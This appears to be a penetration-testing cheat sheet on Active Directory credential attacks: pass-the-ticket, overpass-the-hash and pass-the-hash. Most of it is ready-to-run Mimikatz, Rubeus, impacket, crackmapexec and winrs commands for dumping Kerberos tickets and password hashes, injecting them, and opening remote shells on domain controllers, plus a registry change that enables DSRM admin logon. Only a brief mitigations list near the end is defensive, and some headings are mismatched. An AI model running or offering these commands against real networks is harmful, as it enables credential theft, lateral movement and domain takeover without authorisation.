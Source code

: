 # PTH, PTT, Overpth, ptk

### Pass-the-Ticket

### **Harvesting tickets from Linux**



```markdown
## Extract ticket
privilege::debug => sekurlsa::tickets /export
#or
.\Rubeus dump
```

### Inject ticket into current session

```powershell
kerberos::ptt [0;304edb]-2-0-40e10000-Administrator@krbtgt-WARGREY.MON.kirbi
klist
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
.\winrs.exe -r:<any other dc> cmd.exe

```

#### Rubeus

{% code overflow="wrap" %}
```
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi

.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```
{% endcode %}

Reference: [Experimenting with Kerberos Ticket Formats](https://tw1sm.github.io)

***

### Overpass The Hash/Pass The Key (PTK)

### **Linux**

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-getTGT hacktor.local/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
</strong><strong>
</strong>export KRB5CCNAME=/root/velociraptor.ccache
impacket-psexec hacktor.local/velociraptor@labwws02.jurassic.park -k -no-pass
</code></pre>

### **Windows**

{% code overflow="wrap" %}
```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt

.\PsExec.exe -accepteula \\labwws02.hacktor.local cmd
```
{% endcode %}



### Obtain encryption key

```powershell
privilege::debug => sekurlsa::ekeys
```

#### RC4 algorithm

```bash
sekurlsa::pth /user:Administrator /domain:pdc.wargrey.mon /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:powershell.exe
```

#### AES128

```plaintext
sekurlsa::pth /user:Administrator /domain:pdc.wargrey.mon /aes128:b65ea8151f13a31d01377f5934bf3883 /run:powershell.exe
```

#### AES256

```plaintext
sekurlsa::pth /user:Administrator /domain:pdc.wargrey.mon /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:powershell.exe
```

```plaintext
winrs.exe -r:<any other dc> cmd.exe
```

#### Using Rubeus

```plaintext
Rubeus.exe asktgt /user:administrator /rc4:ntlmhash /ptt
Rubeus.exe asktgt /user:administrator/aes256:ntlmhash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Rubeus.exe ptt /ticket:base64
```

***

## Pass-the-hash

### Linux

#### Pass The Hash using crackmapexec  or NXC

Since we have the hashes, we can use the hashes directly without the need for cracking them. Use the following command for crackmapexec

```bash
crackmapexec -u "USER NAME" -H HASH --local-auth

#ex
crackmapexec -u "Frank Castle" -H 40739aa18503c6fcf8c7e9d434af2361 --local-auth
```

Running this will attempt to Pass The Hash to the machines in the network and tell which machine accepted the hash for the specified user.

<figure><img src="https://www.hackingloops.com/wp-content/uploads/2023/03/8-1024x147.png" alt="" height="105" width="735"><figcaption></figcaption></figure>

Here it does not tell <mark style="color:orange;">**`Pwned`**</mark>**`!`** rather we can see a green plus sign **(+)** which indicates that there’s a good chance that the attack worked. Pwned determines the confirmed success of the attack.

This can further be used in <mark style="color:red;">**`psexec`**</mark> to gain shell access through the command

{% code overflow="wrap" %}
```bash
impacket-psexec "USER NAME":@TARGET_IP -hashes FULL_NTLM_HASH

impacket-psexec "Frank Castle":@192.168.37.141 -hashes aad3b435b51404eeaad3b435b51404ee:40739aa18503c6fcf8c7e9d434af2361
```
{% endcode %}

<figure><img src="https://www.hackingloops.com/wp-content/uploads/2023/03/9.png" alt="" height="206" width="1009"><figcaption></figcaption></figure>

This tries to find a writable share and upload a shell to execute it and get a shell. Even though the user “frank castle” is authenticated but it does not have admin access over the shares.

Trying the same command on another machine 192.168.1.5 gives an authentication failure

<figure><img src="https://www.hackingloops.com/wp-content/uploads/2023/03/10-1024x85.png" alt="" height="63" width="766"><figcaption></figcaption></figure>

This is because we are going with local authentication. Frank Castle has access to this machine but as a domain user, not a local user. But if we get local authentication successful on a machine of Domain Controller, we can do much more.

### &#x20;Windows

```powershell
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "lsadump::sam""exit"'
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "sekurlsa::msv""exit"'
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD
```

```markup
mimikatz# token::revert
mimikatz# sekurlsa::pth /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /domain:pdc /run:powershell.exe
mimikatz# sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:powershell.exe
```

```powershell
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:cmd.exe" “exit”
```

```powershell
Rubeus.exe asktgt /user:SHALBY /rc4:5D88C6E440C1B976A9C1A2EF6AD66083 /ptt
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
SafetyKatz.exe “sekurlsa::pth /user:user /domain:anything.domain.local /aes256:<> /run:cmd.exe” “exit”
```

```markup
winrs -r:dc whoami
winrs -r:dc cmd
```

PtH involved directly authenticating to a host by literally sending the password’s hash to the host during the authentication process, while OPtH is way more subtle as it abuses Kerberos authentication.

### Mitigations for Pass The Hash/Password

Preventing completely is hard but some controls can be implemented to make it difficult for attackers. Following are some suggestions to prevent the Pass The Hash/Password attacks

* Limit account reuse
  * Do not reuse the local admin password
  * Disable Guest and Administrator accounts
  * Limit who is the local administrator
* Utilize strong password
  * Longer passwords
  * Do not use common words
* Privilege Access Management (PAM) limits Pass The Hash/Password attack as the password/hash is strong and constantly rotated
  * Check out/in sensitive accounts only when needed
  * Automatically rotate passwords at each check out and check-in

## overPassTheHash

[Video Reference](https://youtu.be/EA2kod-okIg?si=t6s0OoxRsoGzRcWY)

```
```

